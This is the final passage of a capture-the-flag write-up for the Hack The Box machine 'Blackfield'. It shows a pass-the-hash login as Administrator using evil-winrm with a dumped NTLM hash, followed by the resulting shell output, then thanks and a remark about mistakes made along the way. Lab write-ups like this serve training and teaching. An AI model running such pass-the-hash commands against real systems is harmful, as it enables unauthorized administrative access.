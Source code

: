 ![Enum](/asset/images/blackfield/dump5.png)
We dumped all the hashes, lets perform **pass-the-hash** as Admin with `evil-winrm`

```bash
root@Zakali:~/HTB/Blackfield/root# evil-winrm -u Administrator -i blackfield.htb -H 184fb5e5178480be64824d4cd53b99ee
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------

User Name                SID
======================== =============================================
blackfield\administrator S-1-5-21-4194615774-2175524697-3563712290-500
```
All done!



Special thanks to [**ippsec**](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) for his amazing knowledge and methodology shared for free.

# Bonus
I did take note of every attempt I have made, including mistakes and rabbitholes, most writeups give the illusion of a smooth sailing exploitation, i just wanted to show its absolutelty not.


![Enum](/asset/images/blackfield/attempts/-000.png)